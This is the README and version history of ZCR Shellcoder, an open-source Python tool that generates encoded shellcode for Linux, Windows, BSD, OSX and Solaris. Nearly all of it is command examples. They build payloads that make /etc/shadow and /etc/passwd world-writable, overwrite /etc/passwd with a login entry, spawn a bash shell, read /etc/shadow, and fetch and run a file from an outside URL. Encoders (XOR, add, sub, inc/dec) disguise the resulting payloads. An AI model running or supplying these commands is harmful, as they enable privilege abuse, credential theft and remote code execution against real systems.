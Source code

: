 ZCR Shellcoder is an open source software in python language which lets you 
generate customized  shellcodes for listed operation systems. This software 
can be run on Windows/Linux&Unix/OSX and others OS under python 2.7.x.

Home: http://zsc.z3r0d4y.com/
Features: http://zsc.z3r0d4y.com/table.html
Github: https://github.com/Ali-Razmjoo/ZCR-Shellcoder
Archive: https://github.com/Ali-Razmjoo/ZCR-Shellcoder-Archive
About Author: http://www.z3r0d4y.com/p/about.html

for more information read the document files in main directory or visit home page.


Usages And Changes:
==
version 1.0.5.1: CaMo
----

upgrade "-wizard" switch
add length calculator for output
add filename writer in gcc commandline in output file
fixed bug in encoding module not available.
fixed bug in os module not available


==
version 1.0.5: CaMo
----
add "-wizard" switch
add installer "use 'zsc' commandline in terminal after installed"
add uninstaller 
This Software just could be run on linux since this version
change output to .c file and automated shellcode generating
add color output for terminal
etc ...

version 1.0.4.1: Infinity
----
bug fix reported by user in executing on linux , color function

version 1.0.4: Infinity
----
add inc encoding chmod() [linux_x86]
add inc_timesyouwant chmod() [linux_x86]
add dec encoding chmod() [linux_x86]
add dec_timesyouwant chmod() [linux_x86]
add features table inside "features_table.html"
add -about to menu for developers name and etc
add color output for windows cmd
fixed permission number calculating in chmod() [linux_x86]
software's signature changes

Examples:
>python shellcoder.py -os linux_x86 -encode inc -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode inc_10 -job chmod('/etc/passwd','777') -o file
>python shellcoder.py -os linux_x86 -encode dec_30 -job chmod('/etc/passwd','777') -o file

Note: you also can use high value for inc and dec time, like inc_100000, your shellcode may get too big


version 1.0.3: AWAKE
----
add xor_random encoding chmod() [linux_x86]
add xor_yourvalue encoding chmod() [linux_x86]
add add_random encoding chmod() [linux_x86]
add add_yourvalue encoding chmod() [linux_x86]
add sub_random encoding chmod() [linux_x86]
add sub_yourvalue encoding chmod() [linux_x86]
fixed shellcode encode type checking

Examples: 
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_random -job chmod('/etc/passwd','444') -o file.txt

Note: each time you execute chmod() function with random encode, you are gonna get random outputs and different shellcode.

>python shellcoder.py -os linux_x86 -encode xor_0x41414141 -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode xor_0x45872f4d -job chmod('/etc/passwd','444') -o file.txt

Note: your xor value could be anything. "xor_0x41414141" and "xor_0x45872f4d" are examples.

>python shellcoder.py -os linux_x86 -encode add_random -job chmod('/etc/passwd','444') -o file.txt
>python shellcoder.py -os linux_x86 -encode add_0x41414141 -job chmod('/etc/passwd','777') -o file.txt


>python shellcoder.py -os linux_x86 -encode sub_random -job chmod('/etc/passwd','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode sub_0x41414141 -job chmod('/etc/passwd','444') -o file.txt



version 1.0.2: SKIP
----
[linux_x86 modules completed]
add script_executor() [linux - using command execution]
add download_execute() [linux_x86 - using command execution (wget)]  
add download() [linux_x86 - using command execution (wget)] 
add dir_create() [linux_x86 using command execution] 
add file_create() [linux_x86 using command execution]
add encodes file for next version released

Examples:
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello.txt','hello') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job file_create('/root/Desktop/hello2.txt','hello[space]world[space]!') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job dir_create('/root/Desktop/mydirectory') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download('http://www.z3r0d4y.com/exploit.type','myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type') -o file.txt

#multi command
>python shellcoder.py -os linux_x86 -encode none -job download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','chmod[space]777[space]myfile.type;sh[space]myfile.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('script.type','D:\\myfile.type','./script.type') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('z3r0d4y.sh','/root/z3r0d4y.sh','sh[space]z3r0d4y.sh') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job script_executor('ali.py','/root/Desktop/0day.py','chmod[space]+x[space]ali.py;[space]python[space]ali.py') -o file.txt

Note: Remember don't use " " and replace it with "[space]"
Note: script_executor(),download_execute(),download(),dir_create(),file_create() are using linux command line , not the function. [wget,mkdir,echo]


version 1.0.1: BOILING_POINT
----
add system() [linux_x86 command execute]
fixed chmod filename 1/4 char length [linux_x86]
fixed exec filename 1/4 char length [linux_x86]
fixed write filename 1/4 length [linux_x86]
fixed write content 1/4 length [linux_x86]
fixed write length calculator [linux_x86]
and fixed some other bugs in coding [core]

Examples:

system() function added in script, you can use it to do anything and generate any command line shellcode.
Note: Don't use space ' ' in system() function, replace it with "[space]" , software will detect and replace " " for you in shellcode.

>python shellcoder.py -os linux_x86 -encode none -job system('ls') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job system('wget[space]file;sh[space]file') -o file.txt


version 1.0.0: ASIIN_BLUE_RUBY
----
add chmod() [linux_x86] -> chmod('/path/file','perm_num')
add write() [linux_x86] -> write('/path/file','content')
add exec() [linux_x86]  -> exec('/path/file')
add encode [none - all os] 

Examples:

>python shellcoder.py -h 

Switches:
-h, --h, -help, --help => to see this help guide
-os => choose your os to create shellcode
-oslist => list os for switch -os
-o => output filename
-job => what shellcode gonna do for you ?
-joblist => list of -job switch
-encode => generate shellcode with encode
-types => types of encode for -encode switch

-update => check for update

>python shellcoder.py -oslist

[+] linux_x86
[+] linux_x64
[+] linux_arm
[+] linux_mips
[+] freebsd_x86
[+] freebsd_x64
[+] windows_x86
[+] windows_x64
[+] osx
[+] solaris_x86
[+] solaris_x64

>python shellcoder.py -joblist

[+] exec('/path/file')
[+] chmod('/path/file','permission number')
[+] write('/path/file','text to write')
[+] file_create('/path/file','text to write')
[+] dir_create('/path/folder')
[+] download('url','filename')
[+] download_execute('url','filename','command to execute')
[+] system('command to execute')
[+] script_executor('name of script','path and name of your script in your pc','execute command')


>python shellcoder.py -types

[+] none
[+] xor_random
[+] xor_yourvalue
[+] add_random
[+] add_yourvalue
[+] sub_random
[+] sub_yourvalue
[+] inc
[+] inc_timesyouwant
[+] dec
[+] dec_timesyouwant
[+] mix_all


Generating shellcodes , using functions:
>python shellcoder.py -os linux_x86 -encode none -job chmod('/etc/shadow','777') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job write('/etc/passwd','user:pass') -o file.txt
>python shellcoder.py -os linux_x86 -encode none -job exec('/bin/bash') -o file.txt

Note: exec() doesn't support any ARGV same as exec('/bin/bash -c ls') or exec('/bin/bash','-c','ls'), you have to wait for next version and this feature will available  in system()
